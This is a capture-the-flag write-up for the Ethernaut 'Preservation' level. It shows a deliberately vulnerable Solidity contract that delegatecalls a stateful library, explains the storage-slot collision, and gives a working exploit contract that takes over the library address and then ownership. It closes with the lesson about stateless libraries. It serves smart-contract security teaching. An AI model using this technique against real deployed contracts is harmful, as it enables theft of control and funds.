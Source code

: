 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel16.svg)

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help
- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Solition:
## Analysis

We learned in levels [6](https://blog.dixitaditya.com/ethernaut-level-06-delegation) and [12](https://blog.dixitaditya.com/ethernaut-level-12-privacy) about how delegate calls can be used to make external calls to other contracts. This is mostly used in library calls and the storage changes are replicated.

A delegate call is a special low-level call in Solidity to make external calls to another contract. [Solidity By Example](https://solidity-by-example.org/delegatecall/) does an excellent job of explaining this.

Let's assume there are two contracts, similar to the one shown in Ethernaut's Delegation level, contracts `A` and `B`. When contract `A` executes `delegatecall` to contract `B`, `B`'s code is executed with contract `A`'s storage, `msg.sender` and `msg.value`.

This means that it is possible to modify a contract's storage using a code (malicious code) belonging to another contract.

Let's go through the vulnerable code:
### Preservation Contract

- The Preservation contract defines some state variables, in which the first and second variable holds the addresses for the libraries and the third one is the owner in which we need to store our address. These addresses are predefined in the constructor and there's no way to change them. ****wink wink****
- The variable `setTimeSignature` defines a function signature which will be used in delegate call so it knows which function name to call.
- The functions `setFirstTime` and `setSecondTime` are taking a timestamp as input and making delegate calls to the libraries. So the only part we control here is the parameter `uint _timeStamp`.

### LibraryContract

- This is defining a variable called `storedTime` in slot 0 which maps to the variable `address public timeZone1Library` in the Preservation contract.
- The function `setTime()` is taking an input which is controlled by us and is stored inside the above variable.

**To complete the level**, here's what we have to do:

1. Create an attacker contract (DelegateHack) and call the `setFirstTime()` function. In the function argument `_timeStamp`, pass the address of the DelegateHack.
2. This will make a delegatecall to the LibraryContract and call the `setTime()` function with the address of the DelegateHack contract in`_time`. This will be stored in the parameter `storedTime` on slot 0.
3. Since the Preservation contract has the variable `timeZone1Library` in slot 0, it will get updated with the DelegateHack's address. Now we have control over one of the libraries.
4. We will implement our own `setTime()` function in our library/contract/DelegateHack and accept an address and store it inside our own `owner` variable.
5. To make sure the value of the `owner` is updated in slot 2 of the Preservation contract, we will organize the slots in our contract accordingly.
6. Now we will make another call to the `setFirstTime` function of the Preservation contract. Since we control the library's address, the execution flow will go to our own DelegateHack contract and set the owner which will then be reflected in the Preservation contract as well.

---
## The Exploit

Let's now look at our exploit code:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPreservation {
  function setFirstTime(uint _timeStamp) external;
  function setSecondTime(uint _timeStamp) external;
}

contract PWN {
  address public time_1;
  address public time_2;
  address public owner;
  IPreservation instance;

  constructor(address _instance) {
    instance = IPreservation(_instance);
  }

  function pwn() external {
    // почему-то прямой каст адреса в 256-й инт не работает.
    instance.setFirstTime(uint256(uint160(address(this))));
    instance.setFirstTime(uint256(uint160(address(0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5))));
  }

  function setTime(uint256 _owner) public {
    owner = address(uint160(_owner));
  }
}
```

As mentioned above, we are calling `setFirstTime()` first with the address of our DelegateHack contract and then again with the address value we want to set as the owner in the Preservation contract.

We are also defining a function with the same name as in the LibraryContract - `setTime()` because the function signature is constant in `setTimeSignature`. But our function is taking an address and assigning it to the owner variable in slot 2 which is mapped to the `owner` variable in the Preservation contract since our slot arrangement is the same. This will set the owner.

___
As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.